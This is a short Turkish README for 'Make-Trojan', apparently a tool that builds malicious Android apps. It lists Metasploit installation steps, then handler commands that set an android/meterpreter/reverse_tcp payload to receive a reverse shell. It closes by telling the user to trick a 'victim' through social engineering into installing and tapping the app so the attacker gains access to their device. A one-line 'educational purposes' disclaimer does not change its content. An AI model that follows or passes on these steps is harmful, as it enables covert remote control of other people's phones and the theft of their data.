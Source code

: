 # Make-Trojan
ÖNCELİKLE:Bu araç eğitim amaçlı hazırlandı.Aracın kullanımda meydana gelicek hiç bir şey sorumluluğumda değildir!
# Metasploit Kurulumu
1. apt update
2. apt upgrade
3. apt-get update
4. apt-get upgrade
5. apt install git
6. apt install wget
7. apt install curl
8. pkg install ruby -y
9. apt install root-depo
10. apt install unstable-repo
11. apt install x11-repo
12. pkg install metasploit -y
# Make-Trojan Kurulumu
1. pkg install python
2. cd Make-Trojan
3. python make-trojan.py
# Make-Trojan Kullanımı
Gerekli alanları doldurun ve dosyanın oluşmasını bekleyin
1. msfconsole
2. use exploit/multi/handler
3. set payload android/meterpreter/reverse_tcp
4. set LHOST (ip adresi)
5. set LPORT (port)
6. run
# Make-Trojan Çalıştırma
Cihaza bağlanmak için kurbanımıza uygulamayı sosyal mühendislik yardımıyla yükletip, bir kere tıklamasını sağlamak yeterli olacaktır. Uygulamayı silmesi durumunda cihaza olan bağlantı kesilecektir!
